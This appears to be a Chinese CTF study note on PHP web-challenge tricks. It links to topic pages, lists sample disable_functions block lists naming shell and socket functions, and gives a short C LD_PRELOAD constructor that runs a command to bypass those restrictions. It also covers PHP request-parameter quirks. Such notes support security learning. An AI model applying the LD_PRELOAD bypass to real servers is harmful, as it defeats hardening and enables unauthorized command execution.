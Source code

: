 - [[CTFWEB/PHP/弱类型]]
- [[CTFWEB/PHP/可变函数]]
- [[CTFWEB/PHP/无引号字符串]]
- [[CTFWEB/PHP/FFI]]
- [[CTFWEB/PHP/Phar]]
- [[CTFWEB/PHP/原生类]]
- [[CTFWEB/PHP/Session]]
- [[CTFWEB/PHP/反序列化]]
- [[CTFWEB/PHP/特殊标签]]
- [[PHP/忽略错误]]
- [[PHP/模板字符串]]
- [[CTFWEB/PHP/巧用exit()]]
- [[CTFWEB/PHP/运算优先级]]
- [[CTFWEB/PHP/用处特殊的函数]]
- # disable_function
	- ```
	  disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
	  ```
	  
	  
	  ```
	  passthru,system,putenv,chroot,chgrp,chown,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
	  ```
	- ```shell
	  passthru,exec,system,chroot,chgrp,chown,shell_exec,popen,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv,proc_open,putenv
	  ```
	- 不完整版
		- ```
		  passthru,system,chroot,chgrp,chown,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,putenv
		  ```
	- 绕过
		- https://blog.csdn.net/jvkyvly/article/details/120197390#t10
		- [[CTFWEB/PHP/绕过disable_function]]
		-
- # LD_PRELOAD
	- 用来[[CTFWEB/PHP/绕过disable_function]]
	- ```c
	  #include <stdlib.h>
	  #include <stdio.h>
	  #include <string.h>
	  
	  __attribute__ ((__constructor__)) void angel (void){
	    unsetenv("LD_PRELOAD");
	    system("/readflag > /tmp/wx.txt");
	  }
	  ```
- # 传入参数名转换
	- 如果GET/POST参数名中有 `.` 或者空格，那 PHP 会将其转换成下划线
- # $_SERVER
	- `$_SERVER['QUERY_STRING']` 不会进行 url 转义
- # $_REQUEST
	- `$_REQUEST` 中 post 的优先级更高
	- 由 `phpinfo` 中的 `request_order` 和 `variables_order` 定义
-